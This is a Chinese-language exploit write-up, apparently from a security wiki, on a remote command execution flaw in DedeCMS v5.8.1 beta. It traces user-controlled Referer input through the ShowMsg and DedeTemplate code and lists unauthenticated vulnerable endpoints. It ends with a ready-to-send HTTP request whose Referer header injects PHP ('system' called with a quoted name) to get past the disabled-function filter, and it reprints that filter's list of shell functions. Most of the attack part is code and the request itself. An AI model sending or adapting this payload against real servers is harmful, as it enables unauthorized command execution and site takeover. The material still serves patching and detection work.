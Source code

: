 # DedeCMS common.func.php 远程命令执行漏洞

## 漏洞描述

DocCMS flink.php 文件存远程命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>DedeCMS v5.81 beta 内测版</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"DedeCMS_V5.8.1"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1633231738375-8b54ff36-5155-421a-aa24-4c89033cfe3a.png)

查看文件 `include/common.func.php` 的 ShowMsg方法

![img](/assets/PeiQi-Wiki/img/1633231813053-82d63b1c-5d89-4fa1-8d04-50fefc586ced.png)

```php
function ShowMsg($msg, $gourl, $onlymsg = 0, $limittime = 0)
{
    if (empty($GLOBALS['cfg_plus_dir'])) {
        $GLOBALS['cfg_plus_dir'] = '..';
    }
    if ($gourl == -1) {
        $gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';
        if ($gourl == "") {
            $gourl = -1;
        }
    }

    $htmlhead = "
    <html>\r\n<head>\r\n<title>DedeCMS提示信息</title>\r\n
    <meta http-equiv=\"Content-Type\" content=\"text/html; charset={dede:global.cfg_soft_lang/}\" />
    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no\">
    <meta name=\"renderer\" content=\"webkit\">
    <meta http-equiv=\"Cache-Control\" content=\"no-siteapp\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/pkg/uikit/css/uikit.min.css\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/css/manage.dede.css\">
    <base target='_self'/>
    </head>
    <body>
    " . (isset($GLOBALS['ucsynlogin']) ? $GLOBALS['ucsynlogin'] : '') . "
    <center style=\"width:450px\" class=\"uk-container\">
    
    <div class=\"uk-card uk-card-small uk-card-default\" style=\"margin-top: 50px;\">
        <div class=\"uk-card-header\"  style=\"height:20px\">DedeCMS 提示信息！</div>

    <script>\r\n";
    $htmlfoot = "
    </script>
    
    
    </center>
    
    <script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit.min.js\"></script>
	<script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit-icons.min.js\"></script>
    </body>\r\n</html>\r\n";

    $litime = ($limittime == 0 ? 1000 : $limittime);
    $func = '';

    if ($gourl == '-1') {
        if ($limittime == 0) {
            $litime = 3000;
        }

        $gourl = "javascript:history.go(-1);";
    }

    if ($gourl == '' || $onlymsg == 1) {
        $msg = "<script>alert(\"" . str_replace("\"", "“", $msg) . "\");</script>";
    } else {
        //当网址为:close::objname 时, 关闭父框架的id=objname元素
        if (preg_match('/close::/', $gourl)) {
            $tgobj = trim(preg_replace('/close::/', '', $gourl));
            $gourl = 'javascript:;';
            $func .= "window.parent.document.getElementById('{$tgobj}').style.display='none';\r\n";
        }

        $func .= "var pgo=0;
      function JumpUrl(){
        if(pgo==0){ location='$gourl'; pgo=1; }
      }\r\n";
        $rmsg = $func;
        $rmsg .= "document.write(\"<div style='height:130px;font-size:10pt;background:#ffffff'><br />\");\r\n";
        $rmsg .= "document.write(\"" . str_replace("\"", "“", $msg) . "\");\r\n";
        $rmsg .= "document.write(\"";

        if ($onlymsg == 0) {
            if ($gourl != 'javascript:;' && $gourl != '') {
                $rmsg .= "<br /><a href='{$gourl}'>如果你的浏览器没反应，请点击这里...</a>";
                $rmsg .= "<br/></div>\");\r\n";
                $rmsg .= "setTimeout('JumpUrl()',$litime);";
            } else {
                $rmsg .= "<br/></div>\");\r\n";
            }
        } else {
            $rmsg .= "<br/><br/></div>\");\r\n";
        }
        $msg = $htmlhead . $rmsg . $htmlfoot;
    }
    
    $tpl = new DedeTemplate();
    $tpl->LoadString($msg);
    $tpl->Display();
}

/**
 *  获取验证码的session值
 *
 * @return string
 */
```

![img](/assets/PeiQi-Wiki/img/1633232085348-587628d9-8cd6-404e-9376-197149b94d8e.png)

这里注意到 当 $gourl 变量为 -1 时调用 ShowMsg方法, 则请求参数 Referer 为用户可控参数

![img](/assets/PeiQi-Wiki/img/1633235322584-7cd49fee-230b-4109-b082-9185450ddf8b.png)

像下看，可以发现可控的变量传入两个方法

```php
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
$tpl->Display();
```

追踪方法来到 `include/dedetemplate.class.php` 文件

![img](/assets/PeiQi-Wiki/img/1633235467775-2462bab3-0d80-4795-9e2f-c640086838cc.png)

ParseTemplate() 则是模版渲染的方法，再往下看

```php
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

追踪一下 `WriteCache()` 方法

![img](/assets/PeiQi-Wiki/img/1633235811291-45805193-d5b0-4a77-8f5c-6aa028f2c5ec.png)

看 GetResult() 方法 和 CheckDisableFunctions() 方法

```php
public function GetResult()
    {
        if (!$this->isParse) {
            $this->ParseTemplate();
        }
        $addset = '';
        $addset .= '<' . '?php' . "\r\n" . 'if(!isset($GLOBALS[\'_vars\'])) $GLOBALS[\'_vars\'] = array(); ' . "\r\n" . '$fields = array();' . "\r\n" . '?' . '>';
        return preg_replace("/\?" . ">[ \r\n\t]{0,}<" . "\?php/", "", $addset . $this->sourceString);
    }
public function CheckDisabledFunctions($str, &$errmsg = '')
    {
        global $cfg_disable_funs;
        $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';
        // 模板引擎增加disable_functions
        if (!defined('DEDEDISFUN')) {
            $tokens = token_get_all_nl($str);
            $disabled_functions = explode(',', $cfg_disable_funs);
            foreach ($tokens as $token) {
                if (is_array($token)) {
                    if ($token[0] = '306' && in_array($token[1], $disabled_functions)) {
                        $errmsg = 'DedeCMS Error:function disabled "' . $token[1] . '" <a href="http://help.dedecms.com/install-use/apply/2013/0711/2324.html" target="_blank">more...</a>';
                        return false;
                    }
                }
            }
        }
        return true;
    }
```

GetResult() 方法执行后返回的结果通过 CheckDisabledFunctions() 方法过滤后 经过Display() 的 `include $this->cacheFile;`

```php
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

此时我们就可以通过控制 Referer请求头，来控制模版的渲染，绕过 CheckDisabledFunctions()方法的过滤 造成远程命令执行

![img](/assets/PeiQi-Wiki/img/1633236858672-40917ea7-923b-41ea-aea1-755f8a8f6ad1.png)

通过正则找到受影响且无需身份认证的文件，来进行命令执行

```php
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
........
```

![img](/assets/PeiQi-Wiki/img/1633236356274-5f1db6df-d7e7-4373-8089-bbd1ec99bc4f.png)

这里利用没有过滤的双引号绕过 disables 禁止的函数

![img](/assets/PeiQi-Wiki/img/1633236516310-093329a4-a727-4328-ab22-cae8b14d2023.png)

漏洞请求包

```php
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



若有收获，就点个赞吧
